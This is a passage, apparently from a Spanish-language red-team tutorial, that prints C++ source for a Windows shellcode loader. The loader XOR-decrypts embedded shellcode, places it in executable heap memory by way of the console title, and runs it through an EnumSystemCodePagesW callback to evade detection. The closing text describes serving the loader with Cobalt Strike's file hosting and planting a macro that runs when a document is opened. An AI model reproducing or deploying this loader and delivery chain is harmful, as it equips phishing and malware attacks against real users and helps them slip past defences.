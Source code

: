 ```cpp
#include <Windows.h> 
 
int main(int argc, char** argv)
{
    char orig_shellcode[CRYPT_SHELLCODE_LEN] = { 
        CRYPT_SHELLCODE_STR
    }; 
 
    char key[XOR_KEY_LEN] = {
        XOR_KEY_STR
    }; 
 
    BOOL ret = 0; 
 
    int orig_shellcode_len = sizeof(orig_shellcode) / sizeof(orig_shellcode[0]); 
    for (int i = 0; i < orig_shellcode_len; i++) { 
        int j = i % sizeof(key) / sizeof(char); 
        orig_shellcode[i] = orig_shellcode[i] ^ key[j]; 
    } 
 
    HANDLE heap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0); 
    char* copied_shellcode = (char*)HeapAlloc(heap, 0, 0x10); 

    SetConsoleTitleA(orig_shellcode); 
    GetConsoleTitleA(copied_shellcode, MAX_PATH); 

    EnumSystemCodePagesW(copied_shellcode, 0); 

    return 0; 
}
```

Una vez se tiene compilado el cargador, se utiliza la funcionalidad de "Host File" de Cobalt Strike para que se pueda descargar el archivo vía HTTP.
Después de esto, se procede a editar el documento a enviar, se crea la macro que se ejecutará con la apertura del archivo.
